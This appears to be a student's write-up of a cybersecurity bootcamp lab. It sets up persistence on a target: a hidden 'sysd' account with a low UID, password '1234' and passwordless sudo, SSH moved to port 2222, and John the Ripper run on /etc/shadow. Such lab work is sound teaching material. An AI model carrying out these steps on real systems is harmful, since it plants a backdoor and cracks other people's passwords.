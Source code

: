 
**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir: 

![descprition](IMAGE/nohome.png) 

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

![descprition](IMAGE/john.png)

<br>

this is with --show way cool.

![descprition](IMAGE/waycool.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

